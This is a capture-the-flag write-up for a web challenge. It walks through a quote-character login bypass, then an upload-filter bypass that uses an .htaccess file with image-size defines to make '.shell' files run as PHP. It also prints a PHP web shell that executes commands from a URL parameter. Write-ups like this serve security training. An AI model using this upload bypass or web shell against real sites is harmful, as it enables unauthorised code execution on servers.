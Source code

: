 VKL_SQL
===
**Category**: Web

**Poins**: 496 (8 solves)

**Author**: Rosee
### Description
```
You are a professional hacker, please control it
Note: Flag is in /etc/flag.txt
```
### Solution
- First we need to login. We can bypass login with username `"` and password null.
- After bypass login, we see upload file. But upload any file we got a message `size 1337 :)`
- We can upload the `.htaccess` file with 
```
#define width 1337
#define height 1337
```
to bypass size 1337 and `AddType application/x-httpd-php .shell` to upload my shell.
##### Final payload
- First upload file `.htaccess`
```
#define width 1337
#define height 1337

AddType application/x-httpd-php .shell
```
- After upload file `payload.shell`
```
#define width 1337
#define height 1337

<?php
echo system("$_GET['cmd']");
?>
```
- Final access `?cmd=cat flag.txt` to get flag
### Flag
- `darkCON{am4zing_go0d_j0bb_my_Fri3nd_!!!}`
